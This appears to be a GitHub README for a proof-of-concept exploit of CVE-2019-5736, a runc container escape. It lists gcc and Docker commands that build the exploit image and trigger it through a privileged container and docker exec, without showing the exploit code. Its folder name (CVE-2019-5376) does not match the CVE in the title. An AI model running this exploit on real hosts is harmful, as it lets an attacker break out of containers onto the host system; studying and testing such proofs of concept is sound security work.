 ### Exploit for CVE-2019-5736 

## Usage: 

* build image

		cd CVE-2019-5376
		gcc run.c -o run -static
		docker build -t testpoc .


* run

		docker run -it --privileged --name testpoc_instance testpoc
		
		# open another terminal, and run docker exec
		docker exec -it testpoc_instance bash
